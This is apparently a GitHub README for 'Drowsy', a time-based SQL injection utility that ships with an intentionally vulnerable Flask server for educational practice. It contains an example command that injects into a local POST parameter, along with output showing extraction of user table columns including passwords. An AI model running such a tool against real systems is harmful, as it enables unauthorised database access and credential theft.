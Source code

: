 # Drowsy
Automatic Time-Based SQL Injection Utility **Vulnerable Server Included**

The vulnerable server is a Flask implimentation with blueprints.

---

For additional help on setting up the vulnerable server in your local Linux environment, see the [README](vulnerable/README.md) in the vulnerable folder.

---

Example Usage:

```bash

python drowsy.py -u http://localhost:5000/search-post -q 'id=^INJECT^' -m POST

# [*] Benchmarking: 169328
# [1 of 4] (169328) users --> id                    
# [2 of 4] (169328) users --> first_name                    
# [3 of 4] (169328) users --> last_name                    
# [4 of 4] (169328) users --> password

```

---

**This application was designed for educational purposes ONLY.  I am not responsible for any misuse that the application may cause.**
